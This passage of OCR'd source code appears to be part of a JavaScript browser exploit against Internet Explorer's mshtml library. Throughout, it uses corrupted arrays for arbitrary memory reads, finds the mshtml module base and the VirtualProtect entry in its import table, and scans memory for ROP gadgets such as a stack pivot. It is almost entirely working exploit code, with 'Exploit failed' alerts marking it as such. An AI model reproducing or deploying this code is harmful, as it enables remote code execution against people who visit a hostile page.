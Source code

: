 ```
     break;
   `}`
 `}`
 if(strindex &lt; 0) `{`
   alert("Exploit failed, couldn't overwrite string length");
   return;
 `}`
 //alert("mshtml");
 //create a mshtml object and follow references to its vtable ptr
 var lo1,hi1,lo2,hi2;
 arrarr[arrindex+1][0] = document.createElement("button");
 lo1 = s2u(arrarr[arrindex][6+0x28/4]);
 hi1 = arrarr[arrindex][6+0x28/4 + 1];
 lo2 = read32(hi1, lo1+0x18);
 hi2 = read32(hi1, lo1+0x18+4);
 mshtmllo = read32(hi2, lo2+0x20);
 mshtmlhi = read32(hi2, lo2+0x20+4);
 //find the module base
 mshtmllo = mshtmllo - mshtmllo % 0x1000;
 while(mshtmllo&gt;0) `{`
   if(read16(mshtmlhi,mshtmllo) == 0x5A4D) break;
   mshtmllo = mshtmllo - 0x1000;
 `}`
 //find the address of VirtualProtect in the IAT
 var coff = read32(mshtmlhi, mshtmllo + 0x3C);
 var idata = read32(mshtmlhi, mshtmllo + coff + 4 + 20 + 120);
 var iat = read32(mshtmlhi, mshtmllo + idata + 16);
 var vplo =  read32(mshtmlhi, mshtmllo + iat + 0x8a8);
 var vphi =  read32(mshtmlhi, mshtmllo + iat + 0x8a8 + 4);
 //alert(mshtmlhi.toString(16)+"'"+mshtmllo.toString(16)+","+vplo.toString(16));
 //find the rop gadgets in mshtml
 var pivotlo = -1;
 arrarr[arrindex][strobjidx + 4] = 0x01000000;
 arrarr[arrindex][strobjidx + 6] = u2s(mshtmllo);
 arrarr[arrindex][strobjidx + 7] = mshtmlhi;
 for(var i=0x800;i&lt;0x900000;i++) `{`
   if((strarr[strindex].charCodeAt(i) == 0x5C50)
     &amp;&amp;(strarr[strindex].charCodeAt(i+1) == 0xD285)
     &amp;&amp;(strarr[strindex].charCodeAt(i+2) == 0x0874)
     &amp;&amp;(strarr[strindex].charCodeAt(i+3) == 0x408b))
   `{`
     pivotlo = mshtmllo + i*2;
     break;
   `}`
   if((strarr[strindex].charCodeAt(i) == 0x508B)
     &amp;&amp;(strarr[strindex].charCodeAt(i+1) == 0x855C)
     &amp;&amp;(strarr[strindex].charCodeAt(i+2) == 0x74D2)
     &amp;&amp;(strarr[strindex].charCodeAt(i+3) == 0x8b08))
   `{`
     pivotlo = mshtmllo + i*2 + 1;
     break;
   `}`
 `}`
 if(pivotlo &lt; 0) `{`
   alert("Exploit failed, couldn't find ROP gadgets");
   return;
 `}`
 //alert(pivotlo.toString(16));
 var poprcx = -1;
 for(var i=0x800;i&lt;0x900000;i++) `{`
   if(strarr[strindex].charCodeAt(i) == 0xC359) `{`
     poprcx = mshtmllo + i*2;
     break;
```